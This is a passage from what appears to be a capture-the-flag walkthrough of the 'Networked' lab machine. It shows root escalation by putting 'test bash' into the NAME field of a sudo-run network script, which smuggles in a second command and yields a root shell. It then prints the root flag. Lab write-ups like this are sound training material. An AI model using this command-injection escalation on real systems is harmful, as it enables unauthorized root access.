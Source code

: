 5. Try to put SUID permission on `/bin/bash`
```bash
[guly@networked /]$ sudo -u root ./usr/local/sbin/changename.sh
```

**Script run**
```bash
interface NAME:
test bash
interface PROXY_METHOD:
test
interface BROWSER_ONLY:
test
interface BOOTPROTO:
test
```

**Output**
```bash
[root@networked network-scripts]| whoami
root
```

6. Cat **root flag**
```bash
[root@networked network-scripts]| cat /root/root.txt 
0479b2b5af0a43ecc628e1bbc40acb52
```